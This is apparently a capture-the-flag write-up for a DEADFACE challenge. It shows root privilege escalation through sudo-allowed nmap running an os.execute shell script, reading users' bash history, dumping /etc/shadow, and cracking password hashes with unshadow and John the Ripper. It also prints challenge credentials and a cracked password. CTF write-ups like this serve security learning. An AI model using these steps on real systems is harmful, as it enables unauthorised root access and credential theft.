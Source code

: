 # Host Busters 4 (300 points)
TGRI believes a sensitive project proposal was compromised in a recent attack from DEADFACE. Find the proposal and submit the flag associated with this document.

Submit the flag as flag{flag_here}.

vim@gh0st404.deadface.io

Password: letmevim

## Solution
With the access to the user `gh0st404` from [Host Busters 3](./Host_Busters_3.md) we can try to escalate our privileges. Taking a look at the sudo rights shows that we are able to use nmap:
```
gh0st404@2e6d7c969668:~$ sudo -l
Matching Defaults entries for gh0st404 on 2e6d7c969668:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User gh0st404 may run the following commands on 2e6d7c969668:
    (ALL) NOPASSWD: /usr/bin/nmap
    (ALL : ALL) NOPASSWD: /etc/init.d/ssh start
gh0st404@2e6d7c969668:~$
```

According to [GTFObins](https://gtfobins.github.io/gtfobins/nmap/#sudo) we can escalate our privileges:
```
gh0st404@2e6d7c969668:~$ TF=$(mktemp)
gh0st404@2e6d7c969668:~$ echo 'os.execute("/bin/sh")' > $TF
gh0st404@2e6d7c969668:~$ sudo nmap --script=$TF
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-21 13:29 UTC
NSE: Warning: Loading '/tmp/tmp.O47vttUCoj' -- the recommended file extension is '.nse'.
# uid=0(root) gid=0(root) groups=0(root)
# /bin/bash
root@2e6d7c969668:~#
```
The shell is a bit buggy. So the entered commands are not shown interactive.

Nothing in the root home directory:
```
root@2e6d7c969668:~#
total 20
drwx------ 1 root root 4096 Jul 29 16:58 .
drwxr-xr-x 1 root root 4096 Oct 21 13:24 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
drwx------ 2 root root 4096 Jul 29 16:58 .ssh
root@2e6d7c969668:~#
```

Examine the other user directories and take a look into the bash history:
```
root@2e6d7c969668:~#
total 32
drwxrwxr-x 1 root      root      4096 Jul 29 23:05 .
drwxr-xr-x 1 root      root      4096 Oct 21 13:24 ..
drwxrwxr-x 1 gh0st404  gh0st404  4096 Jul 31 02:24 gh0st404
drwxrwxr-x 1 mort1cia  mort1cia  4096 Jul 29 23:05 mort1cia
drwxrwxr-x 1 spookyboi spookyboi 4096 Jul 31 02:24 spookyboi
drwxrwxr-x 1 vim       vim       4096 Oct 21 13:26 vim
root@2e6d7c969668:~#
total 164
drwxrwxr-x 1 spookyboi spookyboi   4096 Jul 31 02:24 .
drwxrwxr-x 1 root      root        4096 Jul 29 23:05 ..
-rw------- 1 spookyboi spookyboi    102 Jul 31 02:19 .bash_history
-rw-r--r-- 1 spookyboi spookyboi    220 Apr 23 21:23 .bash_logout
-rw-r--r-- 1 spookyboi spookyboi   3526 Apr 23 21:23 .bashrc
drwxrwxr-x 1 spookyboi spookyboi   4096 Jul 29 23:05 .keys
-rw-r--r-- 1 spookyboi spookyboi    807 Apr 23 21:23 .profile
drwxrwxr-x 1 spookyboi spookyboi   4096 Jul 29 23:05 .ssh
-rw------- 1 spookyboi spookyboi 127951 Jul 31 02:16 proposal.pdf
root@2e6d7c969668:~#
ls
ip a
ls -l
cd .keys
cd..
wget https://tinyurl.com/mr47bxn7
file mr47bxn7
mv mr47bxn7 proposal.pdf

root@2e6d7c969668:~#
```

We got a URL for the proposal.pdf. If we try to access it we get the document. At the bottom is the flag:
![Flag](./images/host_busters_4.png)

## Cracking
As well we can access the /etc/shadow and /etc/passwd.
```
root@2e6d7c969668:~#
root:*:19520:0:99999:7:::
daemon:*:19520:0:99999:7:::
bin:*:19520:0:99999:7:::
sys:*:19520:0:99999:7:::
sync:*:19520:0:99999:7:::
games:*:19520:0:99999:7:::
man:*:19520:0:99999:7:::
lp:*:19520:0:99999:7:::
mail:*:19520:0:99999:7:::
news:*:19520:0:99999:7:::
uucp:*:19520:0:99999:7:::
proxy:*:19520:0:99999:7:::
www-data:*:19520:0:99999:7:::
backup:*:19520:0:99999:7:::
list:*:19520:0:99999:7:::
irc:*:19520:0:99999:7:::
_apt:*:19520:0:99999:7:::
nobody:*:19520:0:99999:7:::
systemd-network:!*:19567::::::
systemd-timesync:!*:19567::::::
messagebus:!:19567::::::
sshd:!:19567::::::
mort1cia:$6$53820c565eca77b2$WVK13lCDwtn1/DjcyCktOFkZBb8GX/s0N.lHv8nqRTdIcUFaN6UR1t2iadYXU7bR0DD8P3.JzNcW.ne5vgDfO.:19568:0:99999:7:::
spookyboi:$6$238114ed7adfd724$8mKfFn9ywaU8SV0iQxgi/b8PRA.17ZCU77A9uwQzag/pTYMRbdKVADKoB7EWbU539xg.vy1ZP21Sy.B1WIKvA0:19568:0:99999:7:::
vim:$6$d782b019e05a0a3f$0BP3fPEfLmd7P2WPrXlghsdLH.goxQwvxAyvkDbSYuqidXWhlgtT5f.HXpM1cx8KdgUyfOzDZw2G9O5CoucVL0:19568:0:99999:7:::
gh0st404:$6$5d63619132db26f0$4FF5/xxtU1.OPzv2OdnWmB0mG5kqyMGUCAW8crE5ZqS24v6i1sM806eh8SigsZLxeJs/EtK0RJuB.eD.wTjLp/:19568:0:99999:7:::
root@2e6d7c969668:~#

[...]

mort1cia:x:1000:1000::/home/mort1cia:/bin/bash
spookyboi:x:1001:1001::/home/spookyboi:/bin/bash
vim:x:1002:1002::/home/vim:/bin/vim
gh0st404:x:1003:1003::/home/gh0st404:/bin/bash
```

We can try to crack the password of the users:
```
$ cat shadow     
mort1cia:$6$53820c565eca77b2$WVK13lCDwtn1/DjcyCktOFkZBb8GX/s0N.lHv8nqRTdIcUFaN6UR1t2iadYXU7bR0DD8P3.JzNcW.ne5vgDfO.:19568:0:99999:7:::
spookyboi:$6$238114ed7adfd724$8mKfFn9ywaU8SV0iQxgi/b8PRA.17ZCU77A9uwQzag/pTYMRbdKVADKoB7EWbU539xg.vy1ZP21Sy.B1WIKvA0:19568:0:99999:7:::
gh0st404:$6$5d63619132db26f0$4FF5/xxtU1.OPzv2OdnWmB0mG5kqyMGUCAW8crE5ZqS24v6i1sM806eh8SigsZLxeJs/EtK0RJuB.eD.wTjLp/:19568:0:99999:7:::

$ cat passwd              
mort1cia:x:1000:1000::/home/mort1cia:/bin/bash
spookyboi:x:1001:1001::/home/spookyboi:/bin/bash
gh0st404:x:1003:1003::/home/gh0st404:/bin/bash

$ unshadow passwd shadow > unshadowed

$ cat unshadowed 
mort1cia:$6$53820c565eca77b2$WVK13lCDwtn1/DjcyCktOFkZBb8GX/s0N.lHv8nqRTdIcUFaN6UR1t2iadYXU7bR0DD8P3.JzNcW.ne5vgDfO.:1000:1000::/home/mort1cia:/bin/bash
spookyboi:$6$238114ed7adfd724$8mKfFn9ywaU8SV0iQxgi/b8PRA.17ZCU77A9uwQzag/pTYMRbdKVADKoB7EWbU539xg.vy1ZP21Sy.B1WIKvA0:1001:1001::/home/spookyboi:/bin/bash
gh0st404:$6$5d63619132db26f0$4FF5/xxtU1.OPzv2OdnWmB0mG5kqyMGUCAW8crE5ZqS24v6i1sM806eh8SigsZLxeJs/EtK0RJuB.eD.wTjLp/:1003:1003::/home/gh0st404:/bin/bash

$ john --wordlist=/home/kali/Desktop/tools/rockyou.txt unshadowed
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
zaq12wsx         (gh0st404)     

```

So we found the password of the user `gh0st404`. But we can't log in over SSH. Maybe the password is needed at some other point.